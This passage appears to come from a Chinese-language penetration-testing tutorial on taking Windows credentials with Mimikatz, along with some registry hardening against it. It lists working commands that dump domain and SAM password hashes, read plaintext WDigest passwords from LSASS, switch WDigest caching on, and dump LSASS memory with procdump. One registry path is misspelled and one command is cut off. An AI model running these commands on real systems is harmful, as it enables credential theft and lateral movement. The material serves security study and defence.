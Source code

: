     (在域控上执行)读取所有域用户的哈希
    lsadump::lsa /patch
    
    从sam.hive和system.hive文件中获得NTLM Hash
    lsadump::sam /sam:sam.hive /system:system.hive
    
    从本地SAM文件中读取密码哈希
    token::elevate
    lsadump::sam
    
    

#### wdigest

WDigest协议是在WindowsXP中被引入的,旨在与HTTP协议一起用于身份认证。默认情况下,Microsoft在多个版本的Windows(Windows XP-Windows 8.0和Windows Server 2003-Windows Server 2012)中启用了此协议,这意味着纯文本密码存储在LSASS(本地安全授权子系统服务)进程中。 Mimikatz可以与LSASS交互,允许攻击者通过以下命令检索这些凭据
    
    
    mimikatz #privilege::debug
    mimikatz #sekurlsa::wdigest
    
    

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210129161936943.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MDQxMjAzNw==,size_16,color_FFFFFF,t_70)  
在windows2012系统以及以上的系统之后这个默认是关闭的如果在 win2008 之前的系统上打了 KB2871997 补丁，那么就可以去启用或者禁用 WDigest。Windows Server2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server2012以下版本，如果安装了KB2871997补丁，攻击者同样无法获取明文密码。配置如下键值：
    
    
    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest
    

UseLogonCredential 值设置为 0, WDigest 不把凭证缓存在内存；UseLogonCredential 值设置为 1, WDigest 就把凭证缓存在内存。  
使用powershell进行更改
    
    
    开启Wdigest Auth
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
    关闭Wdigest Auth
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProvid
    
    

#### LSA保护

如何防止mimikatz获取一些加密的密文进行PTH攻击呢！其实微软推出的补丁KB2871997是专门针对PTH攻击的补丁，但是如果PID为500的话，还是可以进行PTH攻击的！本地安全权限服务(LSASS)验证用户是否进行本地和远程登录,并实施本地安全策略。 Windows 8.1及更高版本的系统中,Microsoft为LSA提供了额外的保护,以防止不受信任的进程读取内存或代码注入。Windows 8.1之前的系统,攻击者可以执行Mimikatz命令来与LSA交互并检索存储在LSA内存中的明文密码。

这条命令修改键的值为1，即使获取了debug权限吗，也不能直接获取明文密码和hash

reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 1 /f

#### 获取高版本Windows系统的密码凭证

使用procdump将lsass dump下来（需要管理员权限）
    
    
    procdump.exe -accepteula -ma lsass.exe 1.dmp
    
    